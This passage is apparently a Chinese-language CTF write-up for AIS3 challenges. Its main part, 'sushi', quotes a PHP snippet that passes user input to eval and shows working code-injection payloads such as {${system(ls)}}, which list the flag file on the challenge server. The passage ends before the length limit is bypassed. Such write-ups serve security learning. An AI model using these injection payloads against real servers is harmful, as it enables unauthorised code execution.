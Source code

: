 跑了幾分鐘後也沒線索

然後又在header發現

`Flag: AIS3{NOT_A_VALID_FLAG}`

於是又再跑一次 最後在 17331 發現真實 Flag

提供一下 17331 前幾筆數據 (格式為c,s,header)

```
17328 9dcc11f04d350a593ce36298c6690b7792a3bbfcb2c68a1f6b4ed97241b576e7
AIS3{NOT_A_VALID_FLAG}
17329 98d1bc462e1140a408e7f0f84c87ab322061cce557813aee035fe9d4dc15e554
AIS3{NOT_A_VALID_FLAG}
17330 5c666c2274eb495fab10d45415c12625f2ea248a66b8dcc0a681e4852591854f
AIS3{NOT_A_VALID_FLAG}
```

### sushi

```php
<?php
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') || strpos($_, "'") )
    die('Bad Hacker :(');
eval('die("' . substr($_, 0, 16) . '");');
?>

```
題目 [link](http://104.199.235.135:31333/)

前面兩個過濾用url encode就繞得過

但是 `die()` 好像繞不過(die = echo + exit) 於是方向朝直接執行函式

查到[這篇](https://stackoverflow.com/questions/12636586/what-is-phpinfo-called-remote-command-execution-related)

> ${phpinfo()} 

丟進去 未顯示內容(被解析成功)

> {${phpinfo()}}

成功

之後用 `?🍣={${exec(ls)}}` 沒東西 

用 `?🍣={${exec(%22ls%22)}}` 還會跑出 `Bad Hacker :(`

後來改用 `?🍣={${system(ls)}}` 出現三個檔案

```
flag_name_1s_t00_l0ng_QAQQQQQQ
index.php
phpinfo.php
```
還試了很久想說要怎麼繞過長度 去讀flag

